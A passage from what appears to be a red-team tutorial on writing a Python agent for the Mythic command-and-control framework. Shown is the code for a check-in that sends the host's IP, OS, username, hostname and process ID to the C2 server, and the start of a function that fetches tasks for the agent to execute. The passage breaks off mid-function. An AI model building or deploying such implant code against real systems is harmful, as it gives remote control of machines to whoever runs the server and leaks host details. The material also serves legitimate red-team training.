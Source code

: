 ### Time to Check-In!
Now that we have all the necessary groundwork laid, we can actually write the code to connect to the server!  As mentioned before, the first step is to make the check-in call, so the server knows that this agent is alive, and which payload it belongs to. 
```
def SendCheckin():
	data = { 			# This is the message data discussed a few sections up, just with the fields populated
		"action":"checkin",
		"ip":socket.gethostbyname(socket.gethostname()),
		"os":platform.release(),
		"user":os.getlogin(),
		"host":socket.gethostname(),
		"domain":"",
		"pid":os.getpid(),
		"uuid":agent["PayloadUUID"],
		"architecture":platform.system()
	}
	
	response = PostRequest(getEncodedJson(data,agent["PayloadUUID"]))	# Here is where the magic happens!  This one line uses both the getEncodedJson function and PostRequest!
	decodedResponse = base64.b64decode(response)[36:]
	print("Mythic Response: " + str(decodedResponse))			# I like debugging with print statments.  So sue me. 
	
	responseData = json.loads(decodedResponse)
	
	if responseData["status"] == "success":
		agent["UUID"] = responseData["id"]
		return True
	else:
		return False
```
With just these three functions, we can actually test this!  If we create a payload in Mythic, and copy the payload's UUID into the agent["PayloadUUID"] key/value pair, we can call the SendCheckin() function, and we should see a callback show up in the Mythic web UI!

### Let's Put this Thing to Work
We have connection to the C2 server and a way to send and recieve messages!  Now lets work on recieving tasks from the server and executing them!  Since we already know the format the tasks will be sent in, all we have to do is parse through that every time we send a callback and run the commands it gives us.  There is just one catch.  We don't have callbacks set up yet.  Let's do that now!
All the callback really does is say, "Hey server, I'm bored.  Do you have anything for me to do?".  To which, the servers might respond with some tasks.  

```
def getTasks():
	data = {			# Here is a slightly modified agent to server message that asks for 1 task to do.  If more than one is queued up on Mythic's end, it will send them one at a time, in FIFO order
		"action":"get_tasking",
		"tasking_size":1,
	}
	sendData = getEncodedJson(data,agent["UUID"])	# Send the message to the server
	response = PostRequest(sendData)		# Get the response
	decodedResponse = base64.b64decode(response)[36:]	# Decode it, remove the UUID from the front of it, and all that jazz
	print("Mythic Response: " + str(decodedResponse))	# Yeesss, more print statments for debugging (these can seriously help, I promise)
	
	responseData = json.loads(decodedResponse)["tasks"]	# Now here's the magic of this function.  We take the JSON we just got from the server, and use json.loads to load the "tasks" section of the JSON data into responseData.  This will give us a Python list form of the task we recieved.  
	
```